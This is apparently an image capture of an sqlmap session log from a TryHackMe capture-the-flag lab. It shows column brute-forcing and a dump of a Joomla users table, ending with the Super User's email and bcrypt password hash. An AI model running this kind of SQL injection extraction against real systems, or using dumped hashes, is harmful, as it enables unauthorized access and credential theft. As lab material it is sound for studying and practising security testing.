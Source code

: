```bash
[21:35:25] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
which common columns (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/data/txt/common-columns.txt' (press Enter)
[2] custom
> 2
what's the custom common columns file location?
> /root/ctf/table_schema.txt
[21:36:01] [INFO] checking column existence using items from '/root/ctf/table_schema.txt'
[21:36:01] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 4
[21:36:14] [INFO] starting 4 threads
[21:36:15] [INFO] retrieved: id
[21:36:15] [INFO] retrieved: name
[21:36:15] [INFO] retrieved: username
[21:36:15] [INFO] retrieved: email
[21:36:15] [INFO] retrieved: password
[21:36:15] [INFO] retrieved: block
[21:36:16] [INFO] retrieved: sendEmail
[21:36:16] [INFO] retrieved: registerDate
[21:36:16] [INFO] retrieved: lastvisitDate
[21:36:16] [INFO] retrieved: activation
[21:36:16] [INFO] retrieved: params
[21:36:23] [INFO] fetching entries for table '#__users' in database 'joomla'
[21:36:23] [INFO] retrieved: '0'
[21:36:23] [INFO] retrieved: '0'
[21:36:23] [INFO] retrieved: 'jonah@tryhackme.com'
[21:36:23] [INFO] retrieved: '811'
[21:36:23] [INFO] retrieved: '2019-12-15 23:58:06'
[21:36:23] [INFO] retrieved: 'Super User'
[21:36:23] [INFO] retrieved: ''
[21:36:24] [INFO] retrieved: '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[21:36:24] [INFO] retrieved: '2019-12-14 20:43:49'
[21:36:24] [INFO] retrieved: '1'
[21:36:24] [INFO] retrieved: 'jonah'
Database: joomla
Table: #__users
[1 entry]
+-----+------------+-------+---------------------+---------+--------------------------------------------------------------+----------+-----------+------------+---------------------+---------------------+
| id  | name       | block | email               | params  | password                                                     | username | sendEmail | activation | registerDate        | lastvisitDate       |
+-----+------------+-------+---------------------+---------+--------------------------------------------------------------+----------+-----------+------------+---------------------+---------------------+
| 811 | Super User | 0     | jonah@tryhackme.com | <blank> | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm | jonah    | 1         | 0          | 2019-12-14 20:43:49 | 2019-12-15 23:58:06 |
+-----+------------+-------+---------------------+---------+--------------------------------------------------------------+----------+-----------+------------+---------------------+---------------------+

[21:36:24] [INFO] table 'joomla.`#__users`' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.162.223/dump/joomla/#__users.csv'
[21:36:24] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 93 times
[21:36:24] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.162.223'

[*] ending @ 21:36:24 /2020-11-27/
```